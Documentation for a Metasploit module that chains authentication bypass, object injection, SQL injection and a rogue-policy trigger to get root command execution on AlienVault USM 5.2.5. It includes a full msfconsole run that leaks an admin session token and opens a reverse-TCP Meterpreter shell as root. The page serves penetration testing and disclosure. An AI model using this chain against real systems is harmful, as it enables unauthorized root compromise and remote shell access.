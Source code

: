 ## Vulnerable Application

This module exploits object injection, authentication bypass and ip spoofing vulnerabities all together. Unauthenticated users can execute arbitrary commands under the context of the root user.

By abusing authentication bypass issue on gauge.php lead adversaries to exploit object injection vulnerability
which leads to SQL injection attack that leaks an administrator session token. Attackers can create a rogue
action and policy that enables to execute operating system commands by using captured session token. As a final step,
SSH login attempt with a invalid credentials can trigger a created rogue policy which triggers an action that executes
operating system command with root user privileges.

This module was tested against AlienVault USM 5.2.5.

**Vulnerable Application Installation Steps**

Major version of older releases can be found at following URL.
[http://downloads.alienvault.com/c/download](http://downloads.alienvault.com/c/download)

You can download file named as AlienVault-USM_trial_5.2.5.zip which contains a OVA file.
In order to complete installation phase, you have to apply [https://www.alienvault.com/try-it-free](https://www.alienvault.com/try-it-free) .
Once alienvault sales team validate your information, you will be able to complete the installation with your e-mail adress.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/linux/http/alienvault_exec 
msf exploit(alienvault_exec) > set RHOST 12.0.0.137
RHOST => 12.0.0.137
msf exploit(alienvault_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(alienvault_exec) > check
[+] 12.0.0.137:443 The target is vulnerable.
msf exploit(alienvault_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4445 
[*] Hijacking administrator session
[+] Admin session token : PHPSESSID=2gbhp8j5f2af0vu5es5t3083q4
[*] Creating rogue action
[+] Action created: aWbhnZFHqYbUbNW
[*] Retrieving rogue action id
[+] Corresponding Action ID found: D62A1D4A6D3AEEA65F99B606B02197A1
[*] Retrieving policy ctx and group values
[+] CTX Value found: 5E22D6A9E79211E6B8E4000C29F647D7
[+] GROUP Value found: 00000000000000000000000000000000
[*] Creating a policy that uses our rogue action
[+] Policy created: ASdKHQOZVONGzfU
[*] Activating the policy
[+] Rogue policy activated
[*] Triggering the policy by performing SSH login attempt
[+] SSH - Failed authentication. That means our policy and action will be trigged..!
[*] Sending stage (38500 bytes) to 12.0.0.137
[*] Meterpreter session 6 opened (12.0.0.1:4445 -> 12.0.0.137:51674) at 2017-01-31 14:13:49 +0300

meterpreter > getuid
Server username: root
meterpreter >
```
